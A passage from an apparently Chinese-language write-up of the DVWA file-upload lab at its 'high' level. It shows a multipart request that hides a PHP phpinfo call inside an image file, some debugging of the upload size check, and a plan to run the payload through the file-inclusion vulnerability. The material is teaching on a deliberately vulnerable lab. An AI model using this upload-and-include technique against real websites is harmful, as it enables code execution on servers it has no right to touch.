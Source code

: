 ```js
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"3.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<svg version=\"1.1\" id=\"Capa_1\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" x=\"0px\" y=\"0px\" width=\"400px\" height=\"738px\" viewBox=\"0 0 400 738\" enable-background=\"new 0 0 400 738\" xml:space=\"preserve\"></svg><?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

然后再提交，依然不行，淦。这次改成绝对正常的图片附带phpinfo。

![image-20220426171159207](image-20220426171159207.png)

上传！失败而且发现一个警告：

```plaintext
Warning: getimagesize(): Filename cannot be empty in /var/www/html/vulnerabilities/upload/source/high.php on line 17
```

调试 dvwa 代码后发现是 dvwa 代码里没检查错误，上传失败的原因是图片太大超过了表单限制=。=

```php
( $uploaded_size < 100000 ) && // 实际上 php 在 $_FILES[ 'uploaded' ][ 'size' ] 设置的是 0，error 是 2
        getimagesize( $uploaded_tmp )
```

正确做法应该是先检查错误：

```php
( $_FILES[ 'uploaded' ][ 'error' ] === 0) &&
( $uploaded_size < 100000 ) &&
getimagesize( $uploaded_tmp )
```

不然 `$uploaded_tmp` 始终是空字符串的情况下，只会提示 `filename cannot be empty` 就很不友好=。=我不确定这算不算 bug 但反正对我这样不太熟悉 php 的人不友好，强行 `echo var_dump($_FILES[ 'uploaded' ]);` 才发现有个 `error` 被设置成了 2。如果没有这个 `error` 的话我可能就要懵上几天了。

总之，发现问题原因之后，解决之。

把图片放tinypng压缩一下（160k => 6k），然后重新用正常图片带 payload，然后在文件包含这一节的漏洞包含这个png文件完成利用。
